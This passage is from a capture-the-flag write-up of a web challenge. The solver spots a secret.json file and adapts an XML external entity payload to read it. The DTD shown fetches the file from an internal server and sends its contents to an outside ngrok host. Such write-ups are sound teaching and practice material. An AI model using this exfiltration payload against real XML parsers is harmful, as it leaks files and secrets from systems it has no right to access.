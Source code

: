  ![Web 500](images/web500-6.png)

 No flag, but looks like another directory listing. This time, a file called `secret.json` can be seen. 

 Changing the dtd to grab that file: 

 ```xml
  <!ENTITY % file SYSTEM "http://secret_server/data/secret.json">
 <!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://275d42ab779c.ngrok.io/?x=%file;'>">
 %eval;
 %exfiltrate;
 ```

 Examine the response: 

 ![Web 500](images/web500-7.png)